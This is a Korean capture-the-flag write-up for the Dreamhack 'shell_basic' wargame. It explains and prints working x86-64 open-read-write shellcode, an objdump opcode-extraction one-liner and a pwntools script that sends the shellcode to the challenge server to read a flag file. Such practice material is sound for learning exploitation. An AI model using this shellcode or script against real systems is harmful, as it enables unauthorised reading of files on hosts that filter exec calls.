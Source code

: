 # 문제 풀이 방법
이번 워게임의 목표는 원격 서버의 `/home/shell_basic/flag_name_is_loooooong`에서 flag를 읽어오는 것이다.  
그런데 여기서 제공된 문제의 shell_basic.c 파일을 보면 execuve, execveat 시스템 콜을 사용하지 못하도록 막아놨기 때문에, orw 쉘코드를 통해 해당 flag를 읽어오면 된다. 

# 풀이 방법 1. c언어 skeleton 코드 이용

1. 먼저 orw 쉘 코드를 작성 후 skeleton 코드를 통해 실행 파일(ELF) 파일을 생성한다.
```
// File name: orw.c
// Compile Option: gcc -o orw orw.c -masm=intel

__asm__(
    ".global run_sh\n"
    "run_sh:\n"
    "xor rax, rax\n"
    "push rax\n"
    "mov rax, 0x676e6f6f6f6f6f6f\n"
    "push rax\n"
    "mov rax, 0x6c5f73695f656d61\n"
    "push rax\n"
    "mov rax, 0x6e5f67616c662f63\n"
    "push rax\n"
    "mov rax, 0x697361625f6c6c65\n"
    "push rax\n"
    "mov rax, 0x68732f656d6f682f\n"
    "push rax\n"

    "mov rdi, rsp\n"
    "xor rsi, rsi\n"
    "xor rdx, rdx\n"
    "mov rax, 0x02\n"
    "syscall\n"

    "mov rdi, rax\n"
    "mov rsi, rsp\n"
    "sub rsi, 0x30\n"
    "mov rdx, 0x30\n"
    "xor rax, rax\n"
    "syscall\n"

    "mov rdi, 0x1\n"
    "mov rax, 0x1\n"
    "syscall\n"

    "xor rdi, rdi   # rdi = 0\n"
    "mov rax, 0x3c  # rax = sys_exit\n"
    "syscall        # exit(0)"
);
void run_sh();
int main() { run_sh(); }
```

먼저 open콜에서 rsp에 문자열을 넣어준다. 여기서 리틀엔디언 저장 방식에 주의해주고, 맨 윗 줄에 push 0x0을 해준 이유는 기존 스택에서 문자열 이후에 저장된 값때매 정확히 문자열이 ng에서 끊기지 않을 수 있기 때문에 null 문자를 넣어주기 위함이다.
- 참고로 push 콜을 통해서는 최대 32비트 크기의 값밖에 못넣기 때문에 rax에 64비트 값을 먼저 mov 후 rax값을 push한다.

2. 차례대로 open, read, write 콜 이후 `rdi = 0x00(에러코드), rax = 0x3c`를 대입해 `exit(0)` 시스템 콜을 발생 후 종료한다.

3. 이후 `gcc -o  orw orw.c` 명령어를 통해 orw ELF 파일을 생성 후 `objdump -d orw`를 통해 orw의 디스어셈블(-d 옵션) 결과를 확인한다.
- objdump란, 쉽게 바이너리(ELF파일)의 정보를 보여주는 명령어라고 생각하면 됨

4. orw 파일은 순수 어셈블리어 파일(.asm)이 아니므로 위 3. 결과에서 우리가 필요한 <run_sh> 함수 부분의 기계어 코드만 추출할 수 있도록 한다. <img width="840" alt="image" src="https://github.com/juhyeongkim527/Dreamhack-Study/assets/138116436/b853b579-a05c-4f6a-8f10-a75918fbcbd4">

5. 해당 부분을 opcode로 변경하기 위해,     
`for i in $(objdump -d orw | grep "" | cut -f 2); do echo -n \\x$i; done`를 통해 hex 형식으로 변환 후 우리가 필요한 <run_sh> 부분만 확인하여 복사한다.
- `for i in $( )` : $( ) 내의 명령을 실행한 값을 반복하여 i로 접근
- `objdump -d [file_path]` : [file] 경로의 오브젝트 파일을 기계어로 역어셈블
- `grep "^ "` : 공백으로 시작하는 문자열 탐색 (ELF파일에 기계어는 ^뒤에 있으므로)<img width="829" alt="image" src="https://github.com/juhyeongkim527/Dreamhack-Study/assets/138116436/f56e9700-64ec-421b-82bf-6ec869e64427">

- `cut -f 2` : 문자열의 2번째 필드만 추출
- `do echo -n \\x$i` : “\x” + 변수 i 값을 줄바꿈 없이 출력
- `done` : 반복문 종료 

6. 이후 pwntools를 이용하여 실제 원격 서버에 공격을 위한 python 파일을 생성 후 공격한다.
```
from pwn import *

context.arch = "amd64"
p = remote("host3.dreamhack.games", 17846)

shellcode = b'\x48\x31\xc0\x50\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x48\xc7\xc0\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\x48\xc7\xc2\x30\x00\x00\x00\x48\x31\xc0\x0f\x05\x48\xc7\xc7\x01\x00\x00\x00\x48\xc7\xc0\x01\x00\x00\x00\x0f\x05\x48\x31\xff\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05'

p.sendlineafter('shellcode: ', shellcode)

print(p.recvuntil(b'}'))
```


